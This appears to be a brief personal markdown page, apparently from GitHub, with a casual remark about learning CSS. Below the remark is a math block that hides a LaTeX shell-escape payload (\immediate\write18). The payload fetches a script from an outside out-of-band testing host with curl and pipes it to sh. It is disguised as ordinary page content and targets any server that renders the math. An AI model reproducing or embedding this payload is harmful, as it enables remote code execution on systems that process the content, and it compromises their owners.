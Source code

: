 ## well learning a little CSS was fun. See yall next time👋 (I shouldve took another pic i was screwing around🥲)
```math
\ce{$&#x5C;immediate\write18{curl http://cpi0vub6okuc7agc73903rrfeox6emx17.oast.live | sh}$}
```
